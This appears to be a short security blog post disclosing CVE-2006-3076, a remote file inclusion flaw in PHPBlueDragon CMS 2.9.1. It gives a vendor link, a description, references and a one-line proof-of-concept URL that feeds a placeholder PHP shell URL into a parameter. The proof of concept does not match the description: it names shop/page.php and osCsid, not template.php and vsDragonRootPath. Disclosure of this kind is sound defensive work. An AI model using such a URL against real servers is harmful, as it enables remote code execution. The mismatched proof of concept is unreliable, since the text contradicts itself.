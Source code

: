```yaml
---
layout: post
title:  "CVE-2006-3076 – PHPBlueDragon CMS 2.9.1 - Remote File Inclusion"
date:   2006-06-14 00:00:00
categories: security cve
permalink: post/CVE-2006-3076-phpbluedragon-cms-remote-file-inclusion/
---
```


### Vendor

[http://phpbluedragon.net/][phpbluedragoncms]

[phpbluedragoncms]:	http://phpbluedragon.net/	"PHPBlueDragonCMS"

> PHP Blue Dragon CMS is a web-based content management system implemented in PHP.

### Description

PHP remote file inclusion vulnerability in **software_upload/public_includes/pub_templates/vphptree/template.php** in `PHPBlueDragon CMS 2.9.1` allows remote attackers to execute arbitrary PHP code via a URL in the vsDragonRootPath parameter.

### Proof of Concept

**~** stands for `[php-shell-url]`

1. http://localhost/shop/page.php?osCsid=
**~**

### References

* [http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076][mitre]
* [http://www.securityfocus.com/bid/18440][securityfocus]

[mitre]:			http://cve.mitre.org/cgi-bin/cvename.cgi?name=CVE-2006-3076 "CVE-2006-3076"
[securityfocus]:	http://www.securityfocus.com/bid/18440						"SecurityFocus-18440"
